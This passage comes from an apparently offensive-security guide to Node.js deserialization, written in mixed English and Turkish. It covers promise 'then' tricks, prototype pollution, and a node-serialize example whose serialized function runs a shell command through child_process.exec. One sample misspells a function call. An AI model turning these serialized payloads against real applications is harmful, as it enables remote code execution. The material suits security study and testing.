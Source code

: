Another **"magic" way to call a function** without calling it directly is by **compromising an object that is returned by an async function** (promise). Because, if you **transform** that **return object** in another **promise** with a **property** called **"then" of type function**, it will be **executed** just because it's returned by another promise. _Follow_ [_**this link**_](https://blog.huli.tw/2022/07/11/en/googlectf-2022-horkos-writeup/) _for more info._
```javascript
// If you can compromise p (returned object) to be a promise
// it will be executed just because it's the return object of an async function:
async function test_resolve() {
const p = new Promise((resolve) => {
console.log("hello")
resolve()
})
return p
}

async function test_then() {
const p = new Promise((then) => {
console.log("hello")
return 1
})
return p
}

test_ressolve()
test_then()
//For more info: https://blog.huli.tw/2022/07/11/en/googlectf-2022-horkos-writeup/
```
### `__proto__` and `prototype` pollution

Bu teknik hakkında bilgi edinmek istiyorsanız **aşağıdaki eğitime göz atın**:


{{#ref}}
nodejs-proto-prototype-pollution/
{{#endref}}

### [node-serialize](https://www.npmjs.com/package/node-serialize)

Bu kütüphane fonksiyonları serileştirmeye izin verir. Örnek:
```javascript
var y = {
rce: function () {
require("child_process").exec("ls /", function (error, stdout, stderr) {
console.log(stdout)
})
},
}
var serialize = require("node-serialize")
var payload_serialized = serialize.serialize(y)
console.log("Serialized: \n" + payload_serialized)
```
**Serileştirilmiş nesne** şu şekilde görünecek:
```bash
{"rce":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}"}
```
You can see in the example that when a `function` is serialized the `_$$ND_FUNC$$_` flag is appended to the serialized object.
